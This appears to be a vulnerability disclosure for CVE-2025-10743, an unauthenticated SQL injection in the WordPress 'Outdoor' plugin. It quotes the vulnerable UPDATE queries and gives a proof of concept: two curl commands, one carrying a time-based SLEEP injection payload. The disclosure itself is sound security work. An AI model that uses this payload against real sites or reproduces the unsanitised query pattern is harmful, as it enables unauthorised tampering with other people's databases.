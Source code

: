 ## CVE-2025-10743: Unauthenticated SQLi in WordPress 'Outdoor' plugin
The Outdoor WordPress plugin contains an unauthenticated SQL injection vulnerability in the actions.php file. The vulnerability occurs in the edit action handler where user-supplied POST parameters are directly concatenated into SQL queries without proper sanitization. Specifically, the 'field' and 'value' parameters from $_POST["field"] and $_POST["value"] are inserted directly into UPDATE queries, allowing attackers to inject arbitrary SQL commands without authentication.

## Proof of Concept
1. Install latest version of WordPress 

2. Install 'Outdoor' plugin v1.3.2 via WordPress plugin browser, or via https://wordpress.org/plugins/outdoor (note, as of October 14, 2025 the plugin was closed by WordPress following the disclosure of this vulnerability) 

3. Populate SQL table (if empty on fresh install)
```
curl -X POST "http://[target-site]/wp-admin/admin.php?page=outdoor" -d "outd_add_media=1"
```

4. Execute Time-based SQL Injection
```
curl -X POST "http://[target-site]/wp-admin/admin.php?page=outdoor" -d "action_row=edit&field=outdoor_status&value=test&id_row=(SELECT SLEEP(5)) OR outdoor_id>=0"
```

## Vulnerable Code: 
```
/wp-content/plugins/outdoor/actions.php
Line 72: $wpdb->query("UPDATE $outd_table_name SET $outd_field = '$outd_value' WHERE outdoor_id = $outd_id");
Line 69: $wpdb->query("UPDATE $outd_table_name SET outdoor_order = outdoor_order + 1 WHERE outdoor_order >= $outd_value");
```
